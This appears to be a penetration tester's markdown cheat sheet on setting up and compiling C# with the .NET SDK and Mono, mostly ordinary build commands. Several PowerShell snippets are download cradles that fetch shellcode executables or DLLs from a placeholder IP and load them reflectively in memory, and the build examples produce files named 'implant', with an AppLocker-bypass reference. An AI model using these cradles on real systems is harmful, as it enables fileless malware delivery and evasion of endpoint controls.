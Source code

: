 # CSharp

Search Tag(s): #command-line #compiler #dotnet

## 01 - DotNET Compiler

### 1.1 - Setup

Setup Dotnet SDK

```
$ sudo ./dotnet-install.sh -i /usr/share/dotnet -c 6.0
```

Completely uninstall specific dotnet version

```bash
SDK_VERSION="5.0.16"
DOTNET_VERSION="5.0.213"
DOTNET_UNINSTALL_PATH="/usr/share/dotnet"
rm -rf $DOTNET_UNINSTALL_PATH/sdk/$SDK_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.NETCore.App/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.AspNetCore.All/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.AspNetCore.App/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/host/fxr/$DOTNET_VERSION
```

### 1.2 - Compile Program

Create .NET Console Project.

```
> dotnet new console [-o <project_name>]
```

Compile C# Project of Windows executable

```
> dotnet publish [/path/to/project/] -r win-x64 -c Release --sc false [-p:AllowUnsafeBlocks=true] -p:PublishSingleFile=true -p:PublishTrimmed=true

> dotnet publish [/path/to/project/] -r win10-x64 -c Release --sc false [-p:AllowUnsafeBlocks=true] -p:PublishSingleFile=true -p:PublishTrimmed=true

> dotnet publish [/path/to/project/] -f net6.0 -r win-x64 -c Release --sc false [-p:AllowUnsafeBlocks=true] -p:PublishSingleFile=true -p:PublishTrimmed=true
```

Or you can just use `build`.

```
> dotnet build [/path/to/project/] -r win-x64 -c Release [-p:AllowUnsafeBlocks=true] -p:PublishSingleFile=true -p:PublishTrimmed=true

> dotnet build [/path/to/project/] -r win-x64 -c Release [-p:AllowUnsafeBlocks=true] -p:PublishSingleFile=true -p:AllowUnsafeBlocks=true -p:PublishTrimmed=true
```

Download the cradle and load it from memory.

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.exe")
$assem = [System.Reflection.Assembly]::Load($data)
[Shell.Program()]::Main()
# [Program()]::Main()
# [Shell.Program()]::Main("".Split())
```

Create and Compile C# DLL

```
> dotnet new classlib [-o <project_name>]

> dotnet publish [/path/to/project/] -r win-x64 -c Release --sc false [-p:AllowUnsafeBlocks=true] -p:PublishTrimmed=true

> dotnet build [/path/to/project/] -r win-x64 -c Release --sc false [-p:AllowUnsafeBlocks=true] -p:PublishTrimmed=true
```

Execute shellcode.

```powershell
PS C:\> [System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("DLLDropper.dll")
[RunDLLPublicFunc.Class1]::runner()
```

Download the cradle and load it from memory.

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.dll")
$assembly = [System.Reflection.Assembly]::Load($data)
$class = $assembly.GetType("Shellcode.Class1")
$method = $class.GetMethod("<method_name>")
$method.Invoke(0, $null)
```

## 02 - Mono Compiler

### 2.1 - Setup

#### 2.1.1 - Install via package manager

##### 2.1.1.1 - Ubuntu distros

Add the repository.

```
$ sudo apt install -y ca-certificates gnupg
sudo gpg --homedir /tmp --no-default-keyring --keyring /usr/share/keyrings/mono-official-archive-keyring.gpg --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb [signed-by=/usr/share/keyrings/mono-official-archive-keyring.gpg] https://download.mono-project.com/repo/ubuntu stable-focal main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
```

##### 2.1.1.2 - Debian distros

```
$ sudo apt install -y dirmngr ca-certificates gnupg
sudo gpg --homedir /tmp --no-default-keyring --keyring /usr/share/keyrings/mono-official-archive-keyring.gpg --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb [signed-by=/usr/share/keyrings/mono-official-archive-keyring.gpg] https://download.mono-project.com/repo/debian stable-buster main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
```

Install the package.

```
$ sudo apt install -y mono-complete
```

##### 2.1.1.3 - Arch distros

```
$ sudo pacman -S --noconfirm mono
```

#### 2.1.2 - Manually install the compiler

Install required dependencies.

```
$ sudo apt install -y git autoconf libtool automake build-essential gettext cmake python3 curl
```

Download a stable release package and install it.

```
$ wget https://download.mono-project.com/sources/mono/mono-6.12.0.199.tar.xz && \
tar xf mono-6.12.0.199.tar.xz && cd mono-6.12.0.199 && \
./configure --prefix=/usr/local/ && make && make install
```

### 2.2 - Compile Program

Build a solution project.

```
$ xbuild file.csproj

$ xbuild file.sln
```

Compile a `.exe` binary.

```
$ mcs [-unsafe-] -sdk:<2 | 4 | 4.5> -out:implant.exe [-recurse:*.cs] Program.cs
```

Compile a `.dll` binary.

```
$ mcs [-unsafe-] -sdk:<2 | 4 | 4.5> -target:library -out:implant.dll [-recurse:*.cs] Program.cs
```

---
## References

- [Mono](https://gitlab.winehq.org/wine-mono/mono)

- [Arch Linux Wiki .NET](https://wiki.archlinux.org/title/.NET)

- [Pentestlab Blog: Applocker Bypass Assembly Load](https://pentestlab.blog/2017/06/06/applocker-bypass-assembly-load/)

- [https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481)